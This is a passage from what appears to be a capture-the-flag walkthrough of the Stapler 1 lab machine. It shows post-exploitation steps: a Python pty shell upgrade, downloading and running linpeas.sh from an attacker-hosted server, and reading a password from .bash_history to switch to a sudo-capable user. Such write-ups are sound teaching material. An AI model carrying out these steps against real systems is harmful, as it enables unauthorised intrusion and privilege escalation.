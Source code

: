 Next, I upgraded my shell with **python -c 'import pty; pty.spawn("/bin/sh")'**.

![Stapler 1 upgrade shell Python](/assets/img/Stapler43.png)

Next, I served up a python http server on my attacker PC with **python3 -m http.server** so we could retrieve linpeas.sh to enumerate this box further. From the initial foothold, I ran **cd /tmp** followed by **wget http://[attacker ip]:8000/linpeas.sh** and then made it executable with **chmod +x linpeas.sh**.

![Stapler 1 cd /tmp wget linpeas.sh](/assets/img/Stapler44.png)

I then ran linpeas.sh with **./linpeas.sh** and reviewed the results.

![Stapler 1 linepeas.sh 1](/assets/img/Stapler45.png)

![Stapler 1 linepeas.sh 2](/assets/img/Stapler46.png)

![Stapler 1 linepeas.sh 3](/assets/img/Stapler47.png)

The Linux kernel seemed exploitable based on linpeas, and a quick look at searchsploit confirmed several potential exploits that could work. However, before digging into each of those, I noticed that **peter** was a member of the **sudo** group and JKanode's **.bash_history** file had an ssh password present. I ran **su peter** and entered the password found above (**JZQuyIN5**) and now I had access as peter. I was then prompted with setting up Z Shell, so I selected options **1** followed by **0** to complete setup.
